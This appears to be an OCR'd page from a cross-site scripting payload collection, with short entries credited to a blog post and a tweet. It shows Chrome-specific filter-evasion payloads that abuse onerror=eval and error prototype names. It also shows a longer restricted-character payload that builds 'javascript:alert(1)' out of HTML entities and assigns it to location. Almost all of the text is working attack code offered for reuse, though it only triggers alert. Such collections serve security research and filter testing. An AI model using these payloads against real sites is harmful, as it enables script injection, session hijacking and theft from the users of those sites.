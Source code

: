 ```
// chrome

[onerror=eval][TypeError.prototype.name='=/']['/-alert\x2823\x29//']

</script>


<script>

// chrome

onerror=eval,ReferenceError.prototype.name='=alert\x2823\x29//',lol

</script>
```

---

[physuru](https://physuru.dev/blog/restricted_character_xss/)

```
elem=new Option
elem.classList.valueOf=String.prototype.charAt

elem.innerText=elem.outerHTML
elem.className=elem.innerHTML
amp=Object.__proto__.name+elem.classList

htag=new Text
elem.className=htag.nodeName
htag=Object.__proto__.name+elem.classList

elem.innerHTML=amp+htag+97
a=elem.innerText
elem.innerHTML=amp+htag+99
c=elem.innerText
elem.innerHTML=amp+htag+105
i=elem.innerText
elem.innerHTML=amp+htag+106
j=elem.innerText
elem.innerHTML=amp+htag+112
p=elem.innerText
elem.innerHTML=amp+htag+114
r=elem.innerText
elem.innerHTML=amp+htag+115
s=elem.innerText
elem.innerHTML=amp+htag+116
t=elem.innerText
elem.innerHTML=amp+htag+118
v=elem.innerText

elem.innerHTML=amp+htag+58
colon=elem.innerText

elem.innerHTML=amp+htag+40
lpar=elem.innerText
elem.innerHTML=amp+htag+41
rpar=elem.innerText

location=j+a+v+a+s+c+r+i+p+t+colon+alert.name+lpar+1+rpar
```
---
[Renwa](https://twitter.com/RenwaX23/status/1126999364763832325)
